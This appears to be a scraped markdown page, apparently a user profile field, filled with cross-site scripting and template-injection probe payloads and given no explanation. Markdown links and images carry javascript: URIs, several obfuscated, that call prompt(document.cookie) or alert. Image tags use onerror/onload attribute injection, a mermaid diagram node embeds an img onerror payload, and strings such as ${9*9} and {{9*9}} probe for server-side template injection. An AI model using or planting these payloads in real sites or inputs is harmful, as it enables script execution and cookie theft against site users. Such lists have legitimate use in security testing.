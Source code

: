 [about:blank](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))[about:blank](Javascript:self['\x61\x6c\x65\x72\x74']('\x58\x53\x53'))[about:blank](about:blank)[about:blank](https://talent.hubstaff.com/profiles/rafael-silv/j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))[about:blank](https://talent.hubstaff.com/profiles/rafael-silv/j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))[about:blank](https://talent.hubstaff.com/profiles/rafael-silv/j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))[a](javascript:prompt(document.cookie))[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))![a](javascript:prompt(document.cookie))\&gt;[text](http://danlec.com \" [@danlec](/danlec) \")[a](javascript:this;alert(1))[a](javascript:this;alert(1))[a](javascript:this;alert(1))[a](Javascript:alert(1))[a](Javas%26%2399;ript:alert(1))[a](javascript:alert(1))[a](javascript:confirm(1)[a](javascript://www.google.com%0Aprompt(1))[a](javascript://%0d%0aconfirm(1);com)[a](javascript:window.onerror=confirm;throw%201)[a](javascript:alert(document.domain))[a](javascript://www.google.com%0Aalert(1))[a]('javascript:alert(\"1\")')[a](JaVaScRiPt:alert(1))![a](https://www.google.com/image.png\"onload=\"alert(1))![a](\"onerror=\"alert(1))


```mermaid
graph LR
    id1["<img src=x onerror=alert#lpar;document.domain#rpar;>"]
 ```


${9*9}
{{9*9}}
${{9*9}}
{9*9}
<%= 7 * 7 %>
[[5*5]]

'\"><b>lopseg</b>'\"><img src=x>
